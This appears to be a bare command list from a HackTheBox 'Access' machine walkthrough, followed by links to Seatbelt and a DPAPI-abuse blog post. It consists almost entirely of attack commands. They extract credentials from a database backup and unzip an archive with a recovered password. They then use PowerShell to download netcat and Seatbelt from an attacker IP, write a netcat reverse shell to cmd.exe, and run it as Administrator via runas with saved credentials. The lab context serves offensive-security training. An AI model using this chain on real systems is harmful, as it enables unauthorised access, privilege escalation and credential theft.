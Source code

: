 ```
mdb-tables -1  backup.mdb | grep user

mdb-export backup.mdb auth_user 

7z x -p'access4u@security' ac.zip 

cat  Access\ Control.mbox

telnet access.htb 
security
password

net users
net user administrator

cd Desktop

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/nc.exe', 'nc.exe')"

echo c:\Users\security\Desktop\nc.exe 10.10.14.19 6789 -e cmd.exe > reverse.ba

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\security\Desktop\reverse.bat" 

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/SeatbeltNet3.5AnyCPU.exe', 'sb.exe')"

sb.exe MasterKeys
sb.exe user

```
https://github.com/carlospolop/winPE/blob/master/binaries/seatbelt/SeatbeltNet3.5AnyCPU.exe
https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/
https://www.hackthebox.com/achievement/machine/336799/156
